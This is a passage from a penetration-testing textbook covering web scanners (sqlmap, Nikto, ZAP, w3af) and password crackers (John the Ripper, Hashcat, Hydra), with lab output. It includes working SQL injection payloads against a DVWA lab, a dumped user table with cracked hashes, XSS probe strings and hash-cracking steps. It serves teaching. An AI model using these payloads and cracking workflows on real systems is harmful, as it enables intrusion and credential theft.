[21:49:12] [INFO] testing if GET parameter 'id' is dynamic
...
<output omitted for brevity>
...
[21:50:12] [INFO] target URL appears to have 2 columns in query
[21:50:12] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[21:50:12] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 201 HTTP(s) requests:
---
Parameter: id (GET)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
Payload: id=omar' OR NOT 3391=3391#&Submit=Submit
Type: error-based
Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
Payload: id=omar' OR ROW(5759,9381)>(SELECT COUNT(*),CONCAT(0x7162717871,(SELECT (ELT(5759=5759,1))),0x716a717671,FLOOR(RAND(0)*2))x FROM (SELECT 5610 UNION SELECT 4270 UNION SELECT 5009 UNION SELECT 5751)a GROUP BY x)-- AxAS&Submit=Submit
Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 OR time-based blind
Payload: id=omar' OR SLEEP(5)-- dxIW&Submit=Submit
Type: UNION query
Title: MySQL UNION query (NULL) - 2 columns
Payload: id=omar' UNION ALL SELECT CONCAT(0x7162717871,0x6a4752487050494664786251457769674b666b4f745668437 56e766764785546795679694159677a,0x716a717671),NULL#&Submit=Submit
---
[21:50:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[21:50:22] [INFO] fetching database names
available databases [7]:
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
[21:50:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.1.1.14'
[*] shutting down at 21:50:22
The first four highlighted lines in Example 10-16 show how SQLmap automates the various tests and payloads sent to the vulnerable application. (You might recognize some of these SQL statements and queries from Module 6.) The last few highlighted lines show how SQLmap was able to enumerate all the databases in the SQL server.
When you have a list of all available databases, you can try to retrieve the tables and records of the dvwa database by using the command shown in Example 10-17.
Example 10-17 — Retrieving Sensitive Information from a Database
___
...
<output omitted for brevity>
...
[22:14:51] [INFO] resuming back-end DBMS 'mysql'
[22:14:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
Payload: id=omar' OR NOT 3391=3391#&Submit=Submit
Type: error-based
Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
Payload: id=omar' OR ROW(5759,9381)>(SELECT COUNT(*),CONCAT(0x7162717871,(SELECT (ELT(5759=5759,1))),0x716a717671,FLOOR(RAND(0)*2))x FROM (SELECT 5610 UNION SELECT 4270 UNION SELECT 5009 UNION SELECT 5751)a GROUP BY x)-- AxAS&Submit=Submit
Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 OR time-based blind
Payload: id=omar' OR SLEEP(5)-- dxIW&Submit=Submit
Type: UNION query
Title: MySQL UNION query (NULL) - 2 columns
Payload: id=omar' UNION ALL SELECT CONCAT(0x7162717871,0x6a4752487050494664786251457769674b666b4f7456684375 6e766764785546795679694159677a,0x716a717671),NULL#&Submit=Submit
---
[22:14:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[22:14:52] [INFO] fetching tables for database: 'dvwa'
[22:14:52] [WARNING] reflective value(s) found and filtering out
[22:14:52] [INFO] fetching columns for table 'users' in database 'dvwa'
[22:14:52] [INFO] fetching entries for table 'users' in database 'dvwa'
[22:14:52] [INFO] recognized possible password hashes in column 'password'
...
<output omitted for brevity>
...
[22:15:06] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[22:15:06] [INFO] starting 2 processes
[22:15:08] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[22:15:08] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[22:15:11] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
[22:15:13] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
Database: dvwa
Table: users
[5 entries]
+---------+--------+----------------------------------------------------+---------------------------------------------+-----------+------------+
| user_id | user | avatar | password | last_name | first_name |
+---------+--------+----------------------------------------------------+---------------------------------------------+-----------+------------+
| 1 | admin | http://172.16.123.129/dvwa/hackable/users/admin.jpg | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin | admin |
| 2 | gordonb| http://172.16.123.129/dvwa/hackable/users/gordonb.jpg| e99a18c428cb38d5f260853678922e03 (abc123) | Brown | Gordon |
| 3 | 1337 | http://172.16.123.129/dvwa/hackable/users/1337.jpg | 8d3533d75ae2c3966d7e0d4fcc69216b (charley) | Me | Hack |
| 4 | pablo | http://172.16.123.129/dvwa/hackable/users/pablo.jpg | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein) | Picasso | Pablo |
| 5 | smithy | http://172.16.123.129/dvwa/hackable/users/smithy.jpg | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith | Bob |
+---------+--------+----------------------------------------------------+---------------------------------------------+-----------+------------+
[22:15:17] [INFO] table 'dvwa.users' dumped to CSV file '/root/.sqlmap/output/10.1.1.14/dump/dvwa/users.csv'
[22:15:17] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
[22:15:17] [INFO] fetching entries for table 'guestbook' in database 'dvwa'
Database: dvwa
Table: guestbook
[1 entry]
+------------+------+-------------------------+
| comment_id | name | comment |
+------------+------+-------------------------+
| 1 | test | This is a test comment. |
+------------+------+-------------------------+
[22:15:17] [INFO] table 'dvwa.guestbook' dumped to CSV file '/root/.sqlmap/output/10.1.1.14/dump/dvwa/guestbook.csv'
[22:15:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.1.1.14'
[*] shutting down at 22:15:17
The first four highlighted lines in Example 10-17 show how SQLmap was able to automatically enumerate users from the compromised database and crack their passwords. The rest of the highlighted lines show the contents (records) of the two tables in the database (users and guestbook).
You can practice your penetration testing skills by using tools such as SQLmap against vulnerable applications. The Art of Hacking GitHub repository includes a list of vulnerable servers and applications that you can download and use to practice your skills in a safe environment; see https://github.com/The-Art-of-Hacking/art-of-hacking/tree/master/vulnerable_servers.
Instead of just launching tools against vulnerable applications, try to read the debugging messages and understand what the tool is doing. For instance, in Example 10-16 and Example 10-17, you can see the different SQL statements that are being sent to the vulnerable application and subsequently to the SQL server.
You can obtain access to SQLmap's source code and additional documentation at the following GitHub repository: https://github.com/sqlmapproject/sqlmap.
Nikto
Nikto is an open-source web vulnerability scanner that can be downloaded from https://github.com/sullo/nikto. Nikto's official documentation can be accessed at https://cirt.net/nikto2-docs. Example 10-18 shows the first few lines of Nikto's man page.
Example 10-18 — Nikto's Man Page
nikto - Scan web server for known vulnerabilities
SYNOPSIS
/usr/local/bin/nikto [options...]
DESCRIPTION
Examine a web server to find potential problems and security vulnerabilities, including:
· Server and software misconfigurations
· Default files and programs
· Insecure files and programs
· Outdated servers and programs
Nikto is built on LibWhisker (by RFP) and can run on any platform which has a Perl environment. It supports SSL, proxies, host authentication, IDS evasion and more. It can be updated automatically from the command-line, and supports the optional submission of updated version data back to the maintainers.
Example 10-19 demonstrates how Nikto can be used to scan a web application hosted at 10.1.1.14.
Example 10-19 — Using Nikto to Scan a Web Application
- Nikto v2.1.6
----------------------------------------------------------------------
+ Target IP: 10.1.1.14
+ Target Hostname: 10.1.1.14
+ Target Port: 80
+ Start Time: 2018-06-23 22:43:36 (GMT-4)
----------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) DAV/2
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.10
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /phpinfo.php?VARIABLE=<script>alert('Vulnerable')</script>: Output from the phpinfo() function was found.
+ OSVDB-3268: /doc/: Directory indexing found.
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpMyAdmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server leaks inodes via ETags, header found with file /phpMyAdmin/ChangeLog, inode: 92462, size: 40540, mtime: Tue Dec 9 12:24:00 2008
+ OSVDB-3092: /phpMyAdmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /test/: Directory indexing found.
+ OSVDB-3092: /test/: This might be interesting...
+ /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ /phpinfo.php?GLOBALS[test]=<script>alert(document.cookie);</script>: Output from the phpinfo() function was found.
+ /phpinfo.php?cx[]=IOzakRqlfmAcDXV97rNweHX81i3EERZyB9QwbErBoKuXBfztr0JwhnvhOXnXjdBB5bXkfIz5Iwj5CXlPe4CnYKRMsjiGPRSXfgqsokk7wrFaUWpCLQKjcPLbJDxIFik6KhmGyZaF5
...
<output omitted for brevity>
...
<script>alert(foo)</script>: Output from the phpinfo() function was found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpMyAdmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpMyAdmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8329 requests: 0 error(s) and 29 item(s) reported on remote host
+ End Time: 2018-06-23 22:44:07 (GMT-4) (31 seconds)
----------------------------------------------------------------------
+ 1 host(s) tested
You can automate the scanning of multiple hosts by using Nmap and Nikto together. For example, you can scan the 10.1.1.0/24 subnet with Nmap and then pipe the results to Nikto, as demonstrated in Example 10-20.
Example 10-20 — Combining Nmap and Nikto to Scan a Full Subnet
- Nikto v2.1.6
----------------------------------------------------------------------
+ nmap Input Queued: 10.1.1.11:80
+ nmap Input Queued: 10.1.1.12:80
+ nmap Input Queued: 10.1.1.14:80
+ Target IP: 10.1.1.12
+ Target Hostname: 10.1.1.12
+ Target Port: 80
+ Start Time: 2018-06-23 22:56:15 (GMT-4)
<output omitted for brevity>
+ 22798 requests: 0 error(s) and 29 item(s) reported on remote host
+ End Time: 2018-06-23 22:57:00 (GMT-4) (30 seconds)
----------------------------------------------------------------------
+ 3 host(s) tested
OWASP Zed Attack Proxy (ZAP)
According to OWASP, OWASP Zed Attack Proxy (ZAP) "is one of the world's most popular free security tools and is actively maintained by hundreds of international volunteers." Many offensive and defensive security engineers around the world use ZAP, which not only provides web vulnerability scanning capabilities but also can be used as a sophisticated web proxy. ZAP comes with an API and also can be used as a fuzzer. You can download and obtain more information about OWASP ZAP from https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project.
Figure 10-16 shows an active scan against a web server with IP address 10.1.1.14.
Figure 10-17 shows a few of the results of the scan. The vulnerability highlighted in Figure 10-17 is a path traversal vulnerability. Numerous other vulnerabilities were also found by ZAP. ZAP Spider automatically discovers URLs on the site that is being tested. It starts with a list of URLs to visit, called "seeds." ZAP Spider then attempts to access these URLs, identifies all the hyperlinks in the page, and adds the hyperlinks to the list of URLs to visit; the process continues recursively as long as new resources are found. During the processing of a URL, ZAP Spider makes a request to access a resource and then parses the response.
w3af
Another popular open-source web application vulnerability scanner is w3af. w3af can be downloaded from https://github.com/andresriancho/w3af, and its documentation can be obtained from https://docs.w3af.org/en/latest/.
Example 10-21 shows the help menu of the w3af console.
Example 10-21 — The Help Menu of the w3af Console
|-----------------------------------------------------------------------|
| start | Start the scan. |
| plugins | Enable and configure plugins |
| exploit | Exploit the vulnerability |
| profiles | List and use scan profiles. |
| cleanup | Cleanup before starting a new scan. |
|-----------------------------------------------------------------------|
| help | Issuing: help [command], prints more specific help about "command" |
| version | Show w3af version information. |
| keys | Display key shortcuts. |
|-----------------------------------------------------------------------|
| http-settings | Configure the HTTP settings of the framework. |
| misc-settings | Configure w3af misc settings. |
| target | Configure the target URL. |
|-----------------------------------------------------------------------|
| back | Go to the previous menu. |
| exit | Exit w3af. |
|-----------------------------------------------------------------------|
| kb | Browse the vulnerabilities stored in the Knowledge Base |
|-----------------------------------------------------------------------|
The w3af tool has a plugins menu that allows you to configure and enable mangle, crawl, bruteforce, audit, and other plugins. Example 10-22 shows the w3af plugins help menu.
Example 10-22 — The w3af Plugins Help Menu
w3af/plugins>>> help
|---------------------------------------------------------------------|
| list | List available plugins. |
|---------------------------------------------------------------------|
| back | Go to the previous menu. |
| exit | Exit w3af. |
|---------------------------------------------------------------------|
| mangle | View, configure and enable mangle plugins |
| crawl | View, configure and enable crawl plugins |
| bruteforce | View, configure and enable bruteforce plugins |
| audit | View, configure and enable audit plugins |
| output | View, configure and enable output plugins |
| evasion | View, configure and enable evasion plugins |
| infrastructure | View, configure and enable infrastructure plugins |
| auth | View, configure and enable auth plugins |
| grep | View, configure and enable grep plugins |
|-------------------------------------------------------------------|
w3af/plugins>>>
When you are in the plugins mode, you can use the list audit command to list all the available audit plugins, as demonstrated in Example 10-23. You can also do this for any other plugin category.
Example 10-23 — The w3af list audit Command
|---------------------------------------------------------------------|
| Plugin name | Status | Conf | Description |
|---------------------------------------------------------------------|
| blind_sqli | | Yes | Identify blind SQL injection vulnerabilities. |
| buffer_overflow | | | Find buffer overflow vulnerabilities. |
| cors_origin | | Yes | Inspect if application checks that the value of the "Origin" HTTP header is consistent with the value of the remote IP address/Host of the sender of the incoming HTTP request. |
| csrf | | | Identify Cross-Site Request Forgery vulnerabilities. |
| dav | | | Verify if the WebDAV module is properly configured. |
| eval | | Yes | Find insecure eval() usage. |
| file_upload | | Yes | Uploads a file and then searches for the file inside all known directories. |
| format_string | | | Find format string vulnerabilities. |
| frontpage | | | Tries to upload a file using frontpage extensions (author.dll). |
| generic | | Yes | Find all kind of bugs without using a fixed database of errors. |
| global_redirect | | | Find scripts that redirect the browser to any site. |
| htaccess_methods | | | Find misconfigurations in Apache's "<LIMIT>" configuration. |
| ldapi | | | Find LDAP injection bugs. |
| lfi | | | Find local file inclusion vulnerabilities. |
| memcachei | | | No description available for this plugin. |
| mx_injection | | | Find MX injection vulnerabilities. |
| os_commanding | | | Find OS Commanding vulnerabilities. |
| phishing_vector | | | Find phishing vectors. |
| preg_replace | | | Find unsafe usage of PHPs preg_replace. |
| redos | | | Find ReDoS vulnerabilities. |
| response_splitting | | | Find response splitting vulnerabilities. |
| rfd | | | Identify reflected file download vulnerabilities. |
| rfi | | Yes | Find remote file inclusion vulnerabilities. |
| shell_shock | | | Find shell shock vulnerabilities. |
| sqli | | | Find SQL injection bugs. |
| ssi | | | Find server side inclusion vulnerabilities. |
| ssl_certificate | | Yes | Check the SSL certificate validity (if https is being used). |
| un_ssl | | | Find out if secure content can also be fetched using http. |
| websocket_hijacking | | | Detect Cross-Site WebSocket hijacking vulnerabilities.|
| xpath | | | Find XPATH injection vulnerabilities. |
| xss | | Yes | Identify cross site scripting vulnerabilities. |
| xst | | | Find Cross Site Tracing vulnerabilities. |
|---------------------------------------------------------------------|
Example 10-24 shows the w3af tool being configured to perform an SQL injection audit against the web server with IP address 10.1.1.14.
Example 10-24 — Launching an SQL Injection Audit Using w3af
w3af/plugins>>> back
w3af>>> target
w3af/config:target>>> set target http://10.1.1.14
w3af/config:target>>> back
The configuration has been saved.
w3af>>> start
For detailed w3af usage and customization, refer to https://docs.w3af.org/en/latest.
DirBuster
DirBuster is a tool that was designed to brute force directory names and filenames on web application servers. DirBuster is currently an inactive project, and its functionality has been integrated into and enhanced in OWASP ZAP as an add-on.
DirBuster is a Java application designed to brute force directories and filenames on web/application servers. Often what looks like a web server with a default installation actually has pages and applications hidden within it. DirBuster attempts to find these. Two additional alternatives to DirBuster are gobuster (https://github.com/OJ/gobuster) and ffuf (https://github.com/ffuf/ffuf). Keep in mind that tools of this nature are often only as good as the directory and file lists they come with.
10.2.6 Practice — Common Tools for Vulnerability Scanning
Match the vulnerability scanning tool to its description.
- Nessus — vulnerability scanner that has several features that perform continuous monitoring and compliance analysis
- Nikto — open-source web vulnerability scanner that examines a web server to find potential problems and security vulnerabilities
- OWASP ZAP — provides web vulnerability scanning capabilities but also can be used as a sophisticated web proxy
- OpenVAS — open-source vulnerability scanner that includes several services and tools that perform detailed vulnerability scanning against hosts and networks
The scope of the penetration testing agreement with a customer includes vulnerability scanning of the client's cloud presence. Which tool should you choose for the job?
True or False. w3af is a vulnerability scanner that can also perform exploits.
Which tool brute forces directories and filenames on web and application servers?
You are testing the Pixel Paradise web application for injection vulnerabilities. What tool will discover injection vulnerabilities and also launch exploits of the underlying databases?
10.2.7 Common Tools for Credential Attacks
The following are some of the most popular tools that can be used to brute force, crack, and compromise user credentials:
- John the Ripper
- Cain and Abel
- Hashcat
- Hydra
- RainbowCrack
- Medusa and Ncrack
- CeWL
- Mimikatz
- Patator
John the Ripper
John the Ripper is a very popular tool for offline password cracking. John the Ripper (or john for short) can use search patterns as well as password files (or wordlists) to crack passwords. It supports different cracking modes and understands many ciphertext formats, including several DES variants, MD5, and Blowfish. John the Ripper does not support AES and SHA-2. To list the supported formats, you can use the john --list=formats command, as shown in Example 10-25. John the Ripper can also be used to extract Kerberos AFS and Windows passwords. John the Ripper can be downloaded from https://www.openwall.com/john.
Example 10-25 - Ciphertext Formats Supported by John the Ripper
descrypt, bsdicrypt, md5crypt, bcrypt, scrypt, LM, AFS, tripcode, dummy,
dynamic_n, bfegg, dmd5, dominosec, dominosec8, EPI, Fortigate, FormSpring,
has-160, hdaa, ipb2, krb4, krb5, KeePass, MSCHAPv2, mschapv2-naive, mysql,
nethalflm, netlm, netlmv2, netntlm, netntlm-naive, netntlmv2, md5ns, NT, osc,
PHPS, po, skey, SybaseASE, xsha, xsha512, agilekeychain, aix-ssha1,
aix-ssha256, aix-ssha512, asa-md5, Bitcoin, Blackberry-ES10, WoWSRP,
Blockchain, chap, Clipperz, cloudkeychain, cq, CRC32, sha1crypt, sha256crypt,
sha512crypt, Citrix_NS10, dahua, Django, django-scrypt, dmg, dragonfly3-32,
dragonfly3-64, dragonfly4-32, dragonfly4-64, Drupal7, eCryptfs, EFS, eigrp,
EncFS, EPiServer, fde, gost, gpg, HAVAL-128-4, HAVAL-256-3, HMAC-MD5,
HMAC-SHA1, HMAC-SHA224, HMAC-SHA256, HMAC-SHA384, HMAC-SHA512, hMailServer,
hsrp, IKE, keychain, keyring, keystore, known_hosts, krb5-18, krb5pa-sha1,
kwallet, lp, lotus5, lotus85, LUKS, MD2, md4-gen, mdc2, MediaWiki, MongoDB,
Mozilla, mscash, mscash2, krb5pa-md5, mssql, mssql05, mssql12, mysql-sha1,
mysqlna, net-md5, net-sha1, nk, nsldap, o5logon, ODF, Office, oldoffice,
OpenBSD-SoftRAID, openssl-enc, oracle, oracle11, Oracle12C, Panama,
pbkdf2-hmac-md5, PBKDF2-HMAC-SHA1, PBKDF2-HMAC-SHA256, PBKDF2-HMAC-SHA512,
PDF, PFX, phpass, pix-md5, plaintext, pomelo, postgres, PST, PuTTY, pwsafe,
RACF, RAdmin, RAKP, rar, RAR5, Raw-SHA512, Raw-Blake2, Raw-Keccak,
Raw-Keccak-256, Raw-MD4, Raw-MD5, Raw-SHA1, Raw-SHA1-Linkedin, Raw-SHA224,
Raw-SHA256, Raw-SHA256-ng, Raw-SHA3, Raw-SHA384, Raw-SHA512-ng, Raw-SHA,
Raw-MD5u, ripemd-128, ripemd-160, rsvp, Siemens-S7, Salted-SHA1, SSHA512,
sapb, sapg, saph, 7z, sha1-gen, Raw-SHA1-ng, SIP, skein-256, skein-512,
aix-smd5, Snefru-128, Snefru-256, LastPass, SSH, SSH-ng, Stribog-256,
Stribog-512, STRIP, SunMD5, sxc, Sybase-PROP, tcp-md5, Tiger, tc_aes_xts,
tc_ripemd160, tc_sha512, tc_whirlpool, VNC, vtp, wbb3, whirlpool, whirlpool0,
whirlpool1, wpapsk, ZIP, NT-old, crypt
omar@kali:~$
Let's take a look at a quick example of how John the Ripper can be used to crack a password. For simplicity, Example 10-26 shows how to create three users in Kali Linux (chris, ben, and ron) and assign passwords to them.
Example 10-26 - Creating Three Users in Linux
root@kali:~# useradd -m ron
root@kali:~# useradd -m ben
root@kali:~# passwd chris
Enter new UNIX password: ************
Retype new UNIX password: ************
passwd: password updated successfully
root@kali:~# passwd ben
Enter new UNIX password: ************
Retype new UNIX password: ************
passwd: password updated successfully
root@kali:~# passwd ron
Enter new UNIX password: ************
Retype new UNIX password: ************
Example 10-27 shows the hash of each of the users in the /etc/shadow file. The hashes were copied to a file called hashes.
Example 10-27 - The Users' Password Hashes
root@kali:~# cat hashes
chris:$6$PGIpAuSV$XnEENZNMaCG0VXT3KtL8orLWF4j5NbpzcpvcD2WHHup2uNuovIQ
4Chb4bQbu3pi3pCglxFASD15r/7hLusXa4.:17707:0:99999:7:::
ron:$6$O.1NipMZ$rbNQw2MVQ92qW2Bzq3ZOOKLhI1/pjTG/
nG4tTXvWMgexBSO5agINf4q5HBpYWlWYzXBdqNsNi9HxEssztydNa0:17707:
0:99999:7:::
ben:$6$I5Uy6m.6$igEWjio69br27uRLi86LyofpA32K6OK7StxZspikYlLRY
J4Lb5f9mdLK4kvUc..mFJ/xrnO4cGi0xDcuUAe4w0:17707:0:99999:7:::
Because hashes is the name of the file created in Example 10-27, you can use the command john hashes to crack the passwords, as demonstrated in Example 10-28.
Example 10-28 - Cracking Passwords with John the Ripper
Warning: detected hash type "sha512crypt", but the string is also
recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type
instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3)
$6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein (ben)
password (chris)
secret123 (ron)
1g 0:00:00:07 DONE 2/3 (2018-06-25 11:36) 0.1293g/s 783.8p/s 783.8c/s
783.8C/s modem..robocop
Use the "--show" option to display all of the cracked passwords
reliably
Session completed
The three highlighted lines in Example 10-28 show the cracked passwords for the users. You can also see the cracked passwords by using the john -show hashes command, as demonstrated in Example 10-29.
Example 10-29 - Showing the Cracked Passwords
chris:password:17707:0:99999:7:::
ron:secret123:17707:0:99999:7:::
ben:letmein:17707:0:99999:7:::
3 password hashes cracked, 0 left
John the Ripper also keeps a log in the private john "home directory" for the current user (~.john). The following is an example of a few lines of the log:
0:00:00:03 - Oldest still in use is now rule #1079
0:00:00:03 - Rule #1081: 'l Az"1900" <+' accepted as 'lAz"1900"<+'
0:00:00:03 - Processing the remaining buffered candidate passwords, if any
0:00:00:03 Proceeding with wordlist mode
0:00:00:03 - Rules: Wordlist
0:00:00:03 - Wordlist file: /usr/share/john/password.lst
0:00:00:03 - 57 preprocessed word mangling rules
0:00:00:03 - Rule #1: ':' accepted as ''
0:00:00:07 + Cracked ron
0:00:00:07 Session completed
John the Ripper and other password-cracking tools can use password wordlists. A wordlist is a compilation of words, known passwords, and stolen passwords. Kali Linux and other penetration testing Linux distributions come with several wordlists. You can use the Linux locate command to find all the wordlists in Kali Linux, as demonstrated in Example 10-30.
Example 10-30 - Locating Wordlists in Kali Linux
/usr/share/wordlists
/usr/share/applications/kali-wordlists.desktop
/usr/share/dirb/wordlists
/usr/share/dirb/wordlists/big.txt
/usr/share/dirb/wordlists/catala.txt
/usr/share/dirb/wordlists/common.txt
<output omitted for brevity>
To use a wordlist in John the Ripper, you can use the following command:
The wordlist file in this example is called mylist, and the file with the hashes of the passwords to crack is called hashes_to_crack.
There is a GUI version of John the Ripper called Johnny. Figure 10-18 shows a screenshot of Johnny.
Figure 10-18 - Johnny Password Attack Tool

Cain
Cain (or Cain and Abel) is a tool that can be used to "recover" passwords of Windows-based systems. Cain and Abel can be used to decipher and recover user credentials by performing packet captures (sniffing); cracking encrypted passwords by using dictionary, brute-force, and cryptanalysis attacks; and using many other techniques. Cain and Abel is a legacy tool, and archived information about it can be obtained from https://sectools.org/tool/cain/.
Hashcat
Hashcat is another password-cracking tool that is very popular among pen testers. It allows you to use graphical processing units (GPUs) to accelerate the password-cracking process.
Let's take a look at an example of using Hashcat to crack several MD5 password hashes with wordlists. In Example 10-31, a file called my_hashes has three MD5 password hashes.
Example 10-31 - The Contents of the my_hashes File
dc647eb65e6711e155375218212b3964
cc03e747a6afbbcbf8be7668acfebee5
337d9b6931fd8ea8781e18999f9a1c82
Example 10-32 shows how to use Hashcat to crack the passwords in the my_hashes file and output the results to a file called cracked_passwords. A wordlist called my_list is used to crack the passwords in this example.
Example 10-32 - Cracking Passwords with Hashcat
hashcat (v4.1.0) starting...
OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2690 0 @ 2.90GHz,
4096/13996 MB allocatable, 2MCU
Hashes: 3 digests; 3 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13
rotates
Rules: 1
Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the
price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your
command line.
* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/
hashcat/OpenCL -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_
SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D
DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
* Device #1: Kernel m00000_a0.43a55de5.kernel not found in cache!
Building may take a while...
Dictionary cache built:
* Filename..: my_list
* Passwords.: 3
* Bytes.....: 27
* Keyspace..: 3
* Runtime...: 0 secs
<output omitted for brevity>
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: my_hashes
Guess.Base.......: File (my_list)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....: 8248 H/s (0.01ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 3/3 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3/3 (100.00%)
Rejected.........: 0/3 (0.00%)
Restore.Point....: 0/3 (0.00%)
Candidates.#1....: Password -> omarsucks
HWMon.Dev.#1.....: N/A
root@kali:~#
The highlighted lines in Example 10-32 show that Hashcat was able to crack the passwords included in the my_hashes file by using the specified wordlist (my_list). In Example 10-33 you can also see the cracked passwords that were saved in the cracked_passwords file.
Example 10-33 - Passwords Cracked by Hashcat
dc647eb65e6711e155375218212b3964:Password
cc03e747a6afbbcbf8be7668acfebee5:test123
337d9b6931fd8ea8781e18999f9a1c82:omarsucks
Hydra
Hydra is another tool that can be used to guess and crack credentials. Hydra is typically used to interact with a victim server (for example, web server, FTP server, SSH server, file server) and try a list of username/password combinations. For example, say you know that an FTP user's username is omar. You can then try a file that contains a list of passwords against an FTP server (10.1.2.3). To accomplish this, you use the following command:
The file passwords.txt contains a list of common passwords to try. In addition, you can create a file that has a combination of usernames and passwords and use Hydra to perform a brute-force attack, as follows:
Example 10-34 shows the help menu of Hydra.
Example 10-34 - Hydra's Help Menu
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military
or secret service organizations, or for illegal purposes.
